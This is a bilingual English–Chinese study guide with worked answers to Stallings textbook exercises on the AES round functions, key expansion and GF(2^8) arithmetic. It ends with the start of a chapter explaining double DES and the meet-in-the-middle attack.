ShiftRows is a byte permutation of the State. Row 0 is not changed; row 1 is rotated left by 1 byte, row 2 by 2 bytes and row 3 by 3 bytes (circular shifts). Example for row 1: \([s_{1,0}, s_{1,1}, s_{1,2}, s_{1,3}] \to [s_{1,1}, s_{1,2}, s_{1,3}, s_{1,0}]\). Since the State is filled by columns, the shift spreads the four bytes of each column over four different columns, so that the next MixColumns combines bytes that came from different columns. This gives diffusion across columns. The inverse (InvShiftRows) rotates right by the same amounts.ShiftRows 是对 State 的字节置换。第 0 行不变；第 1 行循环左移 1 个字节，第 2 行左移 2 个字节，第 3 行左移 3 个字节。以第 1 行为例：\([s_{1,0}, s_{1,1}, s_{1,2}, s_{1,3}] \to [s_{1,1}, s_{1,2}, s_{1,3}, s_{1,0}]\)。由于 State 是按列填充的，这种移位把每一列的四个字节分散到四个不同的列中，这样下一步的 MixColumns 就能混合来自不同列的字节，从而实现跨列的扩散。逆变换 InvShiftRows 按相同的位数右移。
思路：第 0 行不动，第 1、2、3 行循环左移 1、2、3 字节，使每列字节分散到不同列。
E8. (Review Question 6.8, Stallings) How many bytes in State are affected by ShiftRows?E8. （复习题 6.8，Stallings）ShiftRows 会影响 State 中的多少个字节？
Answer
Twelve of the sixteen bytes. Row 0 is untouched (4 bytes), and each of rows 1, 2 and 3 is shifted by 1, 2 and 3 positions, which are nonzero modulo 4, so every byte of these three rows moves to a different position: \(3 \times 4 = 12\) bytes.16 个字节中的 12 个。第 0 行不动（4 个字节），第 1、2、3 行分别移动 1、2、3 个位置，这些位移模 4 都不为零，所以这三行的每个字节都会移到不同的位置：共 \(3 \times 4 = 12\) 个字节。
思路：只有第 0 行不动，所以 16−4 = 12 个字节被移动。
E9. (Review Question 6.9, Stallings) Why are different round constants used in the key expansion of AES?E9. （复习题 6.9，Stallings）AES 的密钥扩展为什么要用不同的轮常量？
Answer
The round constant \(Rcon[j] = (\{02\}^{j-1}, \{00\}, \{00\}, \{00\})\) is XORed into the first word of each new round key, and it is different in every round. Without it, the round-key computation would be the same in every round, giving symmetry between round keys. A regular key then gives regular round keys: for the all-ones key the words repeat inside the first round key (\(w_6 = w_4\), \(w_7 = w_5\)), and without a constant the later round keys would repeat in the same way. The constants remove the symmetry between rounds, so that related and regular keys are harder to exploit. They are cheap: each is the previous one times \(\{02\}\) in \(GF(2^8)\).轮常量 \(Rcon[j] = (\{02\}^{j-1}, \{00\}, \{00\}, \{00\})\) 与每个新轮密钥的第一个字异或，且每一轮都不相同。如果没有它，每一轮的轮密钥计算都会相同，轮密钥之间就会有对称性。这样一来，有规律的密钥就会产生有规律的轮密钥：对全 1 密钥而言，第一个轮密钥内部的字会重复（\(w_6 = w_4\)、\(w_7 = w_5\)）；如果没有常量，后面的轮密钥也会以同样的方式重复。轮常量打破了各轮之间的对称性，使相关密钥和规则密钥都更难被利用。它们的代价很低：每个常量都是前一个常量乘以 \(\{02\}\) 得到的，运算在 \(GF(2^8)\) 中进行。
思路：轮常数每轮不同，打破各轮子密钥之间以及字之间的对称性/相似性。
E10. (Review Question 6.10, Stallings) Briefly describe AddRoundKey.E10. （复习题 6.10，Stallings）简述 AddRoundKey。
Answer
AddRoundKey XORs the State with the 128-bit round key of the current round. The round key is four words \(w_{4r}, \dots, w_{4r+3}\) of the expanded key, and word \(j\) is XORed into column \(j\) of the State: \(s'_{i,j} = s_{i,j} \oplus k_{i,j}\). It is the only stage that uses the key. It is applied once before the first round and once at the end of every round, so there are \(N_r + 1\) applications. It is its own inverse, because \((S \oplus K) \oplus K = S\).AddRoundKey 把 State 与当前轮的 128 位轮密钥逐位异或。轮密钥是扩展密钥中的四个字 \(w_{4r}, \dots, w_{4r+3}\)，字 \(j\) 与 State 的第 \(j\) 列异或：\(s'_{i,j} = s_{i,j} \oplus k_{i,j}\)。它是唯一使用密钥的步骤。它在第一轮之前执行一次，并在每一轮结束时各执行一次，因此共执行 \(N_r + 1\) 次。它的逆运算就是它自己，因为 \((S \oplus K) \oplus K = S\)。
思路：AddRoundKey 就是 State 与轮密钥逐位异或，唯一用到密钥的步骤，自逆。
E11. (Review Question 6.11, Stallings) Briefly describe the key expansion algorithm.E11. （复习题 6.11，Stallings）简述密钥扩展算法。
Answer
The key expansion turns the \(4 N_k\)-byte cipher key into an array \(w\) of \(4(N_r + 1)\) words (44 words for AES-128).密钥扩展把 \(4 N_k\) 字节的密码密钥扩展成由 \(4(N_r + 1)\) 个字组成的数组 \(w\)（AES-128 中为 44 个字）。
- The first \(N_k\) words \(w_0, \dots, w_{N_k - 1}\) are the cipher key itself.前 \(N_k\) 个字 \(w_0, \dots, w_{N_k - 1}\) 就是密码密钥本身。
- Each later word is \(w_i = w_{i - N_k} \oplus t\), where \(t = w_{i-1}\) if \(i\) is not a multiple of \(N_k\).后面每个字都是 \(w_i = w_{i - N_k} \oplus t\)，其中 \(t = w_{i-1}\) 仅在 \(i\) 不是 \(N_k\) 的倍数时适用。
- If \(i\) is a multiple of \(N_k\), then \(t = \text{SubWord}(\text{RotWord}(w_{i-1})) \oplus Rcon[i / N_k]\).若 \(i\) 是 \(N_k\) 的倍数，则 \(t = \text{SubWord}(\text{RotWord}(w_{i-1})) \oplus Rcon[i / N_k]\)。
- For AES-256 only, when \(i \bmod 8 = 4\), \(t = \text{SubWord}(w_{i-1})\).仅对 AES-256 而言，当 \(i \bmod 8 = 4\) 时，\(t = \text{SubWord}(w_{i-1})\)。
Round \(r\) then uses words \(w_{4r}\) to \(w_{4r+3}\). The nonlinearity of SubWord and the round constants make it hard to deduce round keys from each other.第 \(r\) 轮随后使用字 \(w_{4r}\) 到 \(w_{4r+3}\)。SubWord 的非线性和轮常量使人很难由一个轮密钥推出另一个轮密钥。
思路：前 Nk 个字取密钥，之后每个字 = 前 Nk 个字 ⊕ 处理过的前一个字；每 Nk 个字做 RotWord+SubWord+Rcon。
E12. (Review Question 6.12, Stallings) What is the difference between SubBytes and SubWord?E12. （复习题 6.12，Stallings）SubBytes 与 SubWord 有什么区别？
Answer
Both use the same S-box applied byte by byte, but they act on different data. SubBytes substitutes each of the 16 bytes of the State in the encryption rounds. SubWord substitutes each of the 4 bytes of one 32-bit word in the key expansion. SubBytes is a round transformation of the cipher; SubWord is a helper of the key schedule.两者都逐字节地使用同一张 S 盒，但作用的数据不同。SubBytes 在加密轮中替换 State 的 16 个字节中的每一个。SubWord 在密钥扩展中替换一个 32 位字的 4 个字节中的每一个。SubBytes 是密码的一个轮变换；SubWord 只是密钥编排中的辅助步骤。
思路：同一个 S 盒；SubBytes 作用于 16 字节 State，SubWord 只作用于密钥扩展中的一个 4 字节字。
E13. (Review Question 6.13, Stallings) What is the difference between ShiftRows and RotWord?E13. （复习题 6.13，Stallings）ShiftRows 与 RotWord 有什么区别？
Answer
ShiftRows works on the whole State: it rotates row \(i\) left by \(i\) bytes (rows 1, 2, 3 by 1, 2, 3 bytes, row 0 not at all), so 12 bytes move. RotWord works on one 4-byte word in the key expansion and performs a single circular left shift by one byte: \([b_0, b_1, b_2, b_3] \to [b_1, b_2, b_3, b_0]\). RotWord is the same as the shift of one row by one byte. ShiftRows is part of every round of the cipher; RotWord is only used in the key schedule.ShiftRows 作用于整个 State：它把第 \(i\) 行循环左移 \(i\) 个字节（第 1、2、3 行分别移动 1、2、3 个字节，第 0 行不动），所以共有 12 个字节移动。RotWord 作用于密钥扩展中的一个 4 字节字，只做一次循环左移 1 个字节：\([b_0, b_1, b_2, b_3] \to [b_1, b_2, b_3, b_0]\)。RotWord 与把一行左移 1 个字节的操作相同。ShiftRows 是密码每一轮的组成部分；RotWord 只在密钥编排中使用。
思路：ShiftRows 对整个 State 各行移位不同字节数；RotWord 只对单个字做左移 1 字节。
E14. (Review Question 6.14, Stallings) How is the avalanche effect different in AES in comparison to DES? Quantify it in terms of number of rounds.E14. （复习题 6.14，Stallings）与 DES 相比，AES 的雪崩效应有什么不同？请按轮数给出量化说明。
Answer
The avalanche effect means that a small change in plaintext or key changes about half of the ciphertext bits. In AES this happens faster than in DES: flipping one plaintext (or key) bit changes about 20 of the 128 State bits after round 1 and about 58 (close to half) after round 2, and the difference stays around 50% in later rounds. In DES about half of the bits are changed only after round 3, for both a plaintext change and a key change. So AES needs about 2 rounds, DES about 3. Reason: MixColumns and ShiftRows give strong diffusion over the whole 128-bit block after two rounds, while DES's Feistel structure changes only half of the block in each round.雪崩效应指明文或密钥的微小改变会使大约一半的密文位发生变化。AES 中这种效应来得比 DES 快：翻转一位明文（或密钥）位后，第 1 轮之后约 20 个 State 位发生变化，第 2 轮之后约 58 位（接近一半），之后的轮中差异一直保持在 50% 左右。而在 DES 中，无论是明文还是密钥变化，大约一半的位只有在第 3 轮之后才会改变。因此，AES 约需 2 轮，DES 约需 3 轮。原因是：两轮之后，MixColumns 和 ShiftRows 就已在整个 128 位分组上提供了很强的扩散；而 DES 的 Feistel 结构每轮只改变分组的一半。
思路：AES 约 2 轮就改变约一半比特，DES 约需 3 轮。
E15. (Problem 6.1, Stallings) In the discussion of MixColumns and InvMixColumns, it was stated that \(b(x) = a^{-1}(x) \bmod (x^4 + 1)\), where \(a(x) = \{03\}x^3 + \{01\}x^2 + \{01\}x + \{02\}\) and \(b(x) = \{0B\}x^3 + \{0D\}x^2 + \{09\}x + \{0E\}\). Show that this is true.E15. （习题 6.1，Stallings）在讨论 MixColumns 和 InvMixColumns 时曾指出 \(b(x) = a^{-1}(x) \bmod (x^4 + 1)\)，条件是 \(a(x) = \{03\}x^3 + \{01\}x^2 + \{01\}x + \{02\}\) 且 \(b(x) = \{0B\}x^3 + \{0D\}x^2 + \{09\}x + \{0E\}\)。请证明这一结论成立。
Answer
To show it we must prove \(a(x) \otimes b(x) = \{01\}\), where \(\otimes\) is polynomial multiplication with coefficients in \(GF(2^8)\) (modulo \(x^8 + x^4 + x^3 + x + 1\)) reduced modulo \(x^4 + 1\). Because \(x^i \bmod (x^4 + 1) = x^{i \bmod 4}\), the product coefficients are \(d_k = \bigoplus_{i + j \equiv k \pmod 4} a_i b_j\) with \(a_0 = \{02\}, a_1 = \{01\}, a_2 = \{01\}, a_3 = \{03\}\) and \(b_0 = \{0E\}, b_1 = \{09\}, b_2 = \{0D\}, b_3 = \{0B\}\).要证明它，我们必须证明 \(a(x) \otimes b(x) = \{01\}\)，其中 \(\otimes\) 是系数取自 \(GF(2^8)\)（模 \(x^8 + x^4 + x^3 + x + 1\)）的多项式乘法，再模 \(x^4 + 1\) 约化。由于 \(x^i \bmod (x^4 + 1) = x^{i \bmod 4}\)，乘积的系数为 \(d_k = \bigoplus_{i + j \equiv k \pmod 4} a_i b_j\)，且 \(a_0 = \{02\}, a_1 = \{01\}, a_2 = \{01\}, a_3 = \{03\}\)、\(b_0 = \{0E\}, b_1 = \{09\}, b_2 = \{0D\}, b_3 = \{0B\}\)。
First the unreduced coefficients \(c_k = \bigoplus_{i+j=k} a_i b_j\) (products in \(GF(2^8)\), e.g. \(\{02\} \cdot \{0E\} = \{1C\}\) and \(\{03\} \cdot \{09\} = \{1B\}\)):先计算未约化的系数 \(c_k = \bigoplus_{i+j=k} a_i b_j\)（在 \(GF(2^8)\) 中做乘积，例如 \(\{02\} \cdot \{0E\} = \{1C\}\) 与 \(\{03\} \cdot \{09\} = \{1B\}\)）：
- \(c_0 = a_0 b_0 = \{1C\}\)
- \(c_1 = a_1 b_0 \oplus a_0 b_1 = \{0E\} \oplus \{12\} = \{1C\}\)
- \(c_2 = a_2 b_0 \oplus a_1 b_1 \oplus a_0 b_2 = \{0E\} \oplus \{09\} \oplus \{1A\} = \{1D\}\)
- \(c_3 = a_3 b_0 \oplus a_2 b_1 \oplus a_1 b_2 \oplus a_0 b_3 = \{12\} \oplus \{09\} \oplus \{0D\} \oplus \{16\} = \{00\}\)
- \(c_4 = a_3 b_1 \oplus a_2 b_2 \oplus a_1 b_3 = \{1B\} \oplus \{0D\} \oplus \{0B\} = \{1D\}\)
- \(c_5 = a_3 b_2 \oplus a_2 b_3 = \{17\} \oplus \{0B\} = \{1C\}\)
- \(c_6 = a_3 b_3 = \{1D\}\)
Now reduce with \(x^4 \equiv 1\): \(d_0 = c_0 \oplus c_4 = \{1C\} \oplus \{1D\} = \{01\}\), \(d_1 = c_1 \oplus c_5 = \{1C\} \oplus \{1C\} = \{00\}\), \(d_2 = c_2 \oplus c_6 = \{1D\} \oplus \{1D\} = \{00\}\), \(d_3 = c_3 = \{00\}\).现在用 \(x^4 \equiv 1\) 约化：\(d_0 = c_0 \oplus c_4 = \{1C\} \oplus \{1D\} = \{01\}\)、\(d_1 = c_1 \oplus c_5 = \{1C\} \oplus \{1C\} = \{00\}\)、\(d_2 = c_2 \oplus c_6 = \{1D\} \oplus \{1D\} = \{00\}\)、\(d_3 = c_3 = \{00\}\)。
So \(a(x) \otimes b(x) = \{01\}\), the multiplicative identity, and \(b(x) = a^{-1}(x) \bmod (x^4 + 1)\). Hence InvMixColumns, which multiplies each column by \(b(x)\), undoes MixColumns.因此 \(a(x) \otimes b(x) = \{01\}\) 即乘法单位元，且 \(b(x) = a^{-1}(x) \bmod (x^4 + 1)\)。于是，把每一列乘以 \(b(x)\) 的 InvMixColumns 就撤销了 MixColumns。
思路：用 \(x^4\equiv1\) 把系数按下标模 4 合并，逐项在 GF(2^8) 中相乘并异或，得到常数多项式 {01}。
E16. (Problem 6.2, Stallings) (a) What is \(\{02\}^{-1}\) in \(GF(2^8)\)? (b) Verify the entry for \(\{02\}\) in the S-box.E16. （习题 6.2，Stallings）(a) 在 \(GF(2^8)\) 中，\(\{02\}^{-1}\) 是多少？(b) 验证 S 盒中 \(\{02\}\) 的表项。
Answer
(a) We need \(b\) with \(\{02\} \cdot b = \{01\}\) modulo \(m(x) = x^8 + x^4 + x^3 + x + 1\) (\(\{11B\}\)). Try \(b = \{8D\} = 10001101\). Multiplying by \(\{02\}\) is a left shift: \(10001101 \to 1\,00011010\). The shifted-out bit is 1, so reduce by XOR with \(00011011\): \(00011010 \oplus 00011011 = 00000001 = \{01\}\). Hence \(\{02\}^{-1} = \{8D\}\).(a) 我们需要 \(b\)，满足 \(\{02\} \cdot b = \{01\}\) 模 \(m(x) = x^8 + x^4 + x^3 + x + 1\)（\(\{11B\}\)）。试 \(b = \{8D\} = 10001101\)。乘以 \(\{02\}\) 相当于左移：\(10001101 \to 1\,00011010\)。移出的位是 1，所以要与 \(00011011\) 异或来约化：\(00011010 \oplus 00011011 = 00000001 = \{01\}\)。因此 \(\{02\}^{-1} = \{8D\}\)。
(b) Apply the S-box affine map to \(b = \{8D\}\). In the circulant form it is \(b \oplus (b \lll 1) \oplus (b \lll 2) \oplus (b \lll 3) \oplus (b \lll 4) \oplus \{63\}\), where \(\lll\) is a left rotation of the byte:(b) 对 \(b = \{8D\}\) 做 S 盒的仿射变换。写成循环矩阵形式为 \(b \oplus (b \lll 1) \oplus (b \lll 2) \oplus (b \lll 3) \oplus (b \lll 4) \oplus \{63\}\)，其中 \(\lll\) 是字节的一次左循环移位：
- \(b = \{8D\}\) (\(10001101\))
- \(b \lll 1 = \{1B\}\), \(b \lll 2 = \{36\}\), \(b \lll 3 = \{6C\}\), \(b \lll 4 = \{D8\}\)
\(\{8D\} \oplus \{1B\} = \{96\}\); \(\oplus \{36\} = \{A0\}\); \(\oplus \{6C\} = \{CC\}\); \(\oplus \{D8\} = \{14\}\); \(\oplus \{63\} = \{77\}\).
The S-box value of \(\{02\}\) is \(\{77\}\), which is the entry in row 0, column 2 of the S-box table (the standard value).\(\{02\}\) 的 S 盒值为 \(\{77\}\)，即 S 盒表中第 0 行、第 2 列的表项（标准值）。
思路：{02} 的逆元是 {8D}（左移后模约化得 {01}），再做仿射变换得 {77}。
E17. (Problem 6.3, Stallings) Show the first eight words of the key expansion for a 128-bit key of all ones.E17. （习题 6.3，Stallings）对全 1 的 128 位密钥，写出密钥扩展的前 8 个字。
Answer
Method: \(w_0\) to \(w_3\) are the key; for \(i\) a multiple of 4, \(w_i = w_{i-4} \oplus \text{SubWord}(\text{RotWord}(w_{i-1})) \oplus Rcon[i/4]\), otherwise \(w_i = w_{i-4} \oplus w_{i-1}\). Here \(Rcon[1] = \{01000000\}\) and \(S(\{FF\}) = \{16\}\).方法：\(w_0\) 到 \(w_3\) 就是密钥；当 \(i\) 是 4 的倍数时，\(w_i = w_{i-4} \oplus \text{SubWord}(\text{RotWord}(w_{i-1})) \oplus Rcon[i/4]\)，否则为 \(w_i = w_{i-4} \oplus w_{i-1}\)。这里 \(Rcon[1] = \{01000000\}\)，\(S(\{FF\}) = \{16\}\)。
- \(w_0 = w_1 = w_2 = w_3 = \{FFFFFFFF\}\).
- \(i = 4\): \(\text{RotWord}(\{FFFFFFFF\}) = \{FFFFFFFF\}\); SubWord gives \(\{16161616\}\); XOR with \(Rcon[1]\) gives \(t = \{17161616\}\). So \(w_4 = \{FFFFFFFF\} \oplus \{17161616\} = \{E8E9E9E9\}\).\(i = 4\)：\(\text{RotWord}(\{FFFFFFFF\}) = \{FFFFFFFF\}\)；SubWord 得到 \(\{16161616\}\)；与 \(Rcon[1]\) 异或得到 \(t = \{17161616\}\)。因此 \(w_4 = \{FFFFFFFF\} \oplus \{17161616\} = \{E8E9E9E9\}\)。
- \(w_5 = w_1 \oplus w_4 = \{FFFFFFFF\} \oplus \{E8E9E9E9\} = \{17161616\}\).
- \(w_6 = w_2 \oplus w_5 = \{E8E9E9E9\}\).
- \(w_7 = w_3 \oplus w_6 = \{17161616\}\).
w0 = FFFFFFFF w4 = E8E9E9E9
w1 = FFFFFFFF w5 = 17161616
w2 = FFFFFFFF w6 = E8E9E9E9
w3 = FFFFFFFF w7 = 17161616
The first round key is the four words \(w_4 \ldots w_7\). Note the symmetry inside the round key (\(w_6 = w_4\), \(w_7 = w_5\)): with an all-ones key the round constant is the only thing that makes \(w_4\) differ from the key.第一个轮密钥就是四个字 \(w_4 \ldots w_7\)。注意轮密钥内部的对称性（\(w_6 = w_4\)、\(w_7 = w_5\)）：对全 1 密钥而言，轮常量是唯一使 \(w_4\) 与密钥不同的因素。
思路：S(FF)=16，第一步 t = 16161616 ⊕ Rcon，其余字按 \(w_i=w_{i-4}\oplus w_{i-1}\) 递推。
E18. (Problem 6.4, Stallings) Given the plaintext \(\{0F0E0D0C0B0A09080706050403020100\}\) and the key \(\{02020202020202020202020202020202\}\): (a) Show the original contents of State, displayed as a \(4 \times 4\) matrix. (b) Show the value of State after the initial AddRoundKey. (c) Show the value of State after SubBytes. (d) Show the value of State after ShiftRows. (e) Show the value of State after MixColumns.E18. （习题 6.4，Stallings）给定明文 \(\{0F0E0D0C0B0A09080706050403020100\}\) 和密钥 \(\{02020202020202020202020202020202\}\)：(a) 写出 State 的初始内容，排成 \(4 \times 4\) 矩阵。(b) 写出初始 AddRoundKey 之后 State 的值。(c) 写出 SubBytes 之后 State 的值。(d) 写出 ShiftRows 之后 State 的值。(e) 写出 MixColumns 之后 State 的值。
Answer
(a) The bytes are written into State column by column: the first four bytes \(0F, 0E, 0D, 0C\) form column 0, and so on.(a) 字节按列写入 State：前四个字节 \(0F, 0E, 0D, 0C\) 构成第 0 列，依此类推。
0F 0B 07 03
0E 0A 06 02
0D 09 05 01
0C 08 04 00
(b) The round key is the key itself, also arranged by columns (all bytes \(02\)). XOR every byte with \(02\):(b) 轮密钥就是密钥本身，同样按列排列（所有字节都是 \(02\)）。把每个字节与 \(02\) 异或：
0D 09 05 01
0C 08 04 00
0F 0B 07 03
0E 0A 06 02
(c) SubBytes maps each byte through the S-box (e.g. \(S(0D) = D7\), \(S(09) = 01\), \(S(05) = 6B\), \(S(01) = 7C\)):(c) SubBytes 通过 S 盒映射每个字节（例如 \(S(0D) = D7\)、\(S(09) = 01\)、\(S(05) = 6B\)、\(S(01) = 7C\)）：
D7 01 6B 7C
FE 30 F2 63
76 2B C5 7B
AB 67 6F 77
(d) ShiftRows: row 0 unchanged, row 1 rotated left by 1, row 2 by 2, row 3 by 3:(d) ShiftRows：第 0 行不变，第 1 行左移 1，第 2 行左移 2，第 3 行左移 3：
D7 01 6B 7C
30 F2 63 FE
C5 7B 76 2B
77 AB 67 6F
(e) MixColumns multiplies each column by the fixed matrix with rows \((02, 03, 01, 01)\), \((01, 02, 03, 01)\), \((01, 01, 02, 03)\), \((03, 01, 01, 02)\) in \(GF(2^8)\). For column 0 \(= (D7, 30, C5, 77)\): the first byte is \(\{02\} \cdot \{D7\} \oplus \{03\} \cdot \{30\} \oplus \{C5\} \oplus \{77\} = \{B5\} \oplus \{50\} \oplus \{C5\} \oplus \{77\} = \{57\}\), using \(\{02\} \cdot \{D7\} = \{AE\} \oplus \{1B\} = \{B5\}\) and \(\{03\} \cdot \{30\} = \{60\} \oplus \{30\} = \{50\}\). All columns give:(e) MixColumns 把每一列乘以固定矩阵，矩阵各行为 \((02, 03, 01, 01)\)、\((01, 02, 03, 01)\)、\((01, 01, 02, 03)\)、\((03, 01, 01, 02)\)，运算在 \(GF(2^8)\) 中进行。以第 0 列为例 \(= (D7, 30, C5, 77)\)：第一个字节为 \(\{02\} \cdot \{D7\} \oplus \{03\} \cdot \{30\} \oplus \{C5\} \oplus \{77\} = \{B5\} \oplus \{50\} \oplus \{C5\} \oplus \{77\} = \{57\}\)，用到 \(\{02\} \cdot \{D7\} = \{AE\} \oplus \{1B\} = \{B5\}\) 和 \(\{03\} \cdot \{30\} = \{60\} \oplus \{30\} = \{50\}\)。所有列的结果如下：
57 DF 62 A5
94 D8 50 89
EF E3 4D 65
79 C7 66 8F
This is the State at the end of round 1 before the second AddRoundKey; the round key is added next.这是第 1 轮结束时、第二次 AddRoundKey 之前的 State；接下来再加上轮密钥。
思路：按列装入 State → 与轮密钥逐字节异或 → S 盒 → 行移位 → 列混合（矩阵乘，在 GF(2^8) 中）。
E19. (Problem 6.9, Stallings) Compute the output of the MixColumns transformation for the following sequence of input bytes "A1 B2 C3 D4." Apply the InvMixColumns transformation to the obtained result to verify your calculations. Change the first byte of the input from "A1" to "A3", perform the MixColumns transformation again for the new input, and determine how many bits have changed in the output.E19. （习题 6.9，Stallings）对输入字节序列“A1 B2 C3 D4”计算 MixColumns 变换的输出。对所得结果应用 InvMixColumns 变换，以验证计算。把输入的第一个字节从“A1”改为“A3”，对新输入再次做 MixColumns 变换，并确定输出中有多少位发生了变化。
Answer
Method: the column \((s_0, s_1, s_2, s_3)\) is multiplied by the MixColumns matrix, with \(\{03\} \cdot x = (\{02\} \cdot x) \oplus x\) and \(\{02\} \cdot x\) a left shift, XORed with \(\{1B\}\) if the top bit was 1.方法：把列 \((s_0, s_1, s_2, s_3)\) 乘以 MixColumns 矩阵。其中乘以 \(\{03\} \cdot x = (\{02\} \cdot x) \oplus x\) 和 \(\{02\} \cdot x\) 时左移一位，若移出的最高位为 1，则再与 \(\{1B\}\) 异或。
First output byte: \(\{02\} \cdot \{A1\} = \{42\} \oplus \{1B\} = \{59\}\); \(\{03\} \cdot \{B2\} = \{7F\} \oplus \{B2\} = \{CD\}\) (since \(\{02\} \cdot \{B2\} = \{64\} \oplus \{1B\} = \{7F\}\)). So \(\{59\} \oplus \{CD\} \oplus \{C3\} \oplus \{D4\} = \{83\}\). The other rows are computed in the same way:第一个输出字节：\(\{02\} \cdot \{A1\} = \{42\} \oplus \{1B\} = \{59\}\)；\(\{03\} \cdot \{B2\} = \{7F\} \oplus \{B2\} = \{CD\}\)（因为 \(\{02\} \cdot \{B2\} = \{64\} \oplus \{1B\} = \{7F\}\)）。所以 \(\{59\} \oplus \{CD\} \oplus \{C3\} \oplus \{D4\} = \{83\}\)。其他行的计算方法相同：
\[\text{MixColumns}(A1, B2, C3, D4) = (83, 54, E9, 3A).\]
Verification: applying the inverse matrix (rows \((0E, 0B, 0D, 09)\), \((09, 0E, 0B, 0D)\), \((0D, 09, 0E, 0B)\), \((0B, 0D, 09, 0E)\)) to \((83, 54, E9, 3A)\) returns \((A1, B2, C3, D4)\), as it must because the two matrices are inverses.验证：对 \((83, 54, E9, 3A)\) 应用逆矩阵（各行为 \((0E, 0B, 0D, 09)\)、\((09, 0E, 0B, 0D)\)、\((0D, 09, 0E, 0B)\)、\((0B, 0D, 09, 0E)\)），得到 \((A1, B2, C3, D4)\)，这是必然的，因为两个矩阵互为逆矩阵。
Changed input \((A3, B2, C3, D4)\): MixColumns gives \((87, 56, EB, 3C)\).改变后的输入 \((A3, B2, C3, D4)\)：MixColumns 的输出为 \((87, 56, EB, 3C)\)。
Differences of the outputs, byte by byte: \(83 \oplus 87 = 04\), \(54 \oplus 56 = 02\), \(E9 \oplus EB = 02\), \(3A \oplus 3C = 06\). The number of changed bits is \(1 + 1 + 1 + 2 = 5\).输出逐字节的差异：\(83 \oplus 87 = 04\)、\(54 \oplus 56 = 02\)、\(E9 \oplus EB = 02\)、\(3A \oplus 3C = 06\)。改变的位数为 \(1 + 1 + 1 + 2 = 5\)。
This follows from linearity: the input difference \((02, 00, 00, 00)\) gives the output difference \((\{02\} \cdot 02, \{01\} \cdot 02, \{01\} \cdot 02, \{03\} \cdot 02) = (04, 02, 02, 06)\). A single changed input bit changes bits in all four output bytes, which is the diffusion within a column (a 1-bit change spreads to 5 bits here).这源于线性性：输入差 \((02, 00, 00, 00)\) 得到输出差 \((\{02\} \cdot 02, \{01\} \cdot 02, \{01\} \cdot 02, \{03\} \cdot 02) = (04, 02, 02, 06)\)。输入中改变一位，就会使四个输出字节中都有位发生变化，这就是列内的扩散（这里一位的改变扩散成了 5 位）。
思路：MixColumns 是 GF(2^8) 上的线性变换，输入差分 (02,0,0,0) 直接得到输出差分 (04,02,02,06)，共 5 位变化。
Chapter 7Multiple Encryption and Block Cipher Modes多重加密与分组密码工作模式Reading: Stallings (Crypto) 7.1–7.7; Stallings & Brown 20.5–20.6
Multiple Encryption and Triple DES ★★★多重加密与三重 DES
Goal. Explain why double DES is not 112-bit secure, carry out the meet-in-the-middle attack with numbers, and state the strength of two-key and three-key 3DES.目标。 解释为什么双重 DES 没有 112 位的安全性，用具体数字完成中间相遇攻击，并给出两密钥和三密钥 3DES 的强度。
Step 1: double encryption第 1 步：双重加密
In words: double encryption = encrypt the block twice, with two different keys, to make the key space larger.用文字表述：双重加密 = 用两把不同的密钥把分组加密两次，以扩大密钥空间。
Multiple encryption（多重加密）applies a block cipher several times with different keys. It enlarges the key space of an existing cipher such as DES (Section 4.3) without a new algorithm.多重加密是用不同的密钥多次使用分组密码。它不需要新算法，就能扩大 DES（第 4.3 节）等现有密码的密钥空间。


Double encryption would be useless if one single key \(K_3\) gave \(E(K_2,E(K_1,P))=E(K_3,P)\) for all \(P\). It does not. A DES key selects one permutation of the \(2^{64}\) blocks, and the permutations of two stages are mostly not single-DES permutations. The real weakness is a different attack.如果存在一把单独的密钥 \(K_3\)，对所有 \(P\) 都给出 \(E(K_2,E(K_1,P))=E(K_3,P)\)，那么双重加密就毫无用处。但事实并非如此。一把 DES 密钥决定 \(2^{64}\) 个分组的一种置换，而两个阶段的置换大多不是单重 DES 的置换。真正的弱点在于另一种攻击。
Step 2: the meet-in-the-middle attack第 2 步：中间相遇攻击
In words: meet in the middle = attack the two keys separately by computing the value between the two stages from both ends.用文字表述：中间相遇 = 从两端分别计算两个阶段之间的中间值，从而分别攻击两把密钥。
The meet-in-the-middle attack（中间相遇攻击）works against double encryption with any block cipher. The middle value is \(X=E(K_1,P)=D(K_2,C)\). It can be computed from the plaintext side with \(K_1\) and from the ciphertext side with \(K_2\).中间相遇攻击适用于任何分组密码的双重加密。中间值为 \(X=E(K_1,P)=D(K_2,C)\)。它可以从明文一侧用 \(K_1\) 计算，也可以从密文一侧用 \(K_2\) 计算。
How to do it by hand: given one known pair \((P,C)\),手工计算的方法：给定一个已知对 \((P,C)\)，
- Encrypt \(P\) under all \(2^{56}\) values of \(K_1\). Store each pair \((K_1,X)\) in a table sorted by \(X\).用 \(K_1\) 的全部 \(2^{56}\) 个取值对 \(P\) 加密。把每一对 \((K_1,X)\) 存入一张按 \(X\) 排序的表。
- Decrypt \(C\) under every \(K_2\). Look each result up in the table.对 \(C\) 用每一个 \(K_2\) 解密，并把每个结果在表中查找。
- Every match is a candidate pair \((K_1,K_2)\). Test it on a second known pair \((P',C')\).每个匹配都是一个候选对 \((K_1,K_2)\)。用第二个已知对 \((P',C')\) 来检验它。
